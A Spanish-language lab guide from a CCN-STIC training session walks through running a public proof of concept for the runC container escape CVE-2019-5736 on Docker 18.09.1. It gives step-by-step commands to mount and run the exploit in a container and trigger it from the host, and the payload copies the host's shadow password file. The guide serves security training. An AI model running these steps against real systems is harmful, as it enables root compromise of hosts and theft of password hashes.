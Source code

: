 # Guía de laboratorio Parte 1
Guía del laboratorio impartido por sidertia en las jornadas CCN-STIC

Tiempo estimado: **10 min**

Se ejecutará un exploit desarrollado por Nick Frichette el cual aprovecha una vulnerabilidad descubierta en febrero de 2019 identificada como CVE-2019-5736.
***
## ÍNDICE 📋
1. [CVE-2019-5736](#id1)
2. [Ejecución](#id12)

## Requisitos

1. Ir al directorio Parte4
````
cd ~/contenedoresyseguridad/Seccion1DockerEscape
````
2. Backup el archivo runc
````
sudo cp /usr/sbin/runc /usr/sbin/runc.backup
````


<div id='id1'></div>

## 1 CVE-2019-5736

Si se desea más información se puede consultar una explicación detallada del funcionamiento en el siguiente repositorio:

https://github.com/Frichetten/CVE-2019-5736-PoC

El funcionamiento general del exploit es el siguiente, SIEMPRE teniendo en cuenta que un atacante ha conseguido una shell en uno de los contenedores:

1. Se ejecuta el exploit en el contenedor quedando a la escucha esperando a que el binario de la shell del propio contenedor sea ejecutado.
2. Cuando desde el host se ejecute un exec en el contenedor llamando a sh, el contenedor sobreescribe runC por el payload diseñado.

Esto se realiza mediante el acceso a runc por medio del link simbólico /proc/self/exe que apuntará a runC en el momento de ejecutar el exploit en el contenedor.

Al realizar un exec desde fuera del contenedor, el exploit sobreescribe runC por el payload diseñado

En este caso, se a ejecutar el exploit en la instalación docker por defecto versión 18.09.1.
Ya se encuentra todo preparado para escapar de un contenedor sobreescribiendo runC y ejecutando el payload como root.

<div id='id12'></div>

## 2 Ejecución

1. **En el Host**. Para simular a un atacante, se ejecutará una shell y se mapeará el exploit compilado en un contenedor de base ubuntu en la carpeta tmp. 
````
sudo chmod 777 /home/administrator/contenedoresyseguridad/Seccion1DockerEscape/main

docker run --name contcomprometido -v /home/administrator/contenedoresyseguridad/Seccion1DockerEscape/main:/tmp/main -it ubuntu /bin/bash
````
2. **En la shell del contenedor comprometido** recién creado, se debe cambiar de directorio a tmp y ejecutar el exploit.
````
cd /tmp
./main
````
3. **Abrir una nueva sesión ssh con el host.** No se debe cerrar ni salir de la shell del punto 2. A continuación, ejecutar /bin/sh en el contenedor comprometido, momento en el que se sobreescribirá runC por el payload y se ejecutará con permisos de root en el Host.
````
docker exec -it contcomprometido /bin/sh
````
4. Se puede observar que en la **shell de contcomprometido** obtiene la salida overwritten succesfully.
**En el host** se puede visualizar el fichero /tmp/ShadowOwnedBySidertia , el cual es una copia del fichero de contraseñas shadow del host.

Se debe restaurar el binario runc:
````
sudo cp /usr/sbin/runc.backup /usr/sbin/runc
````
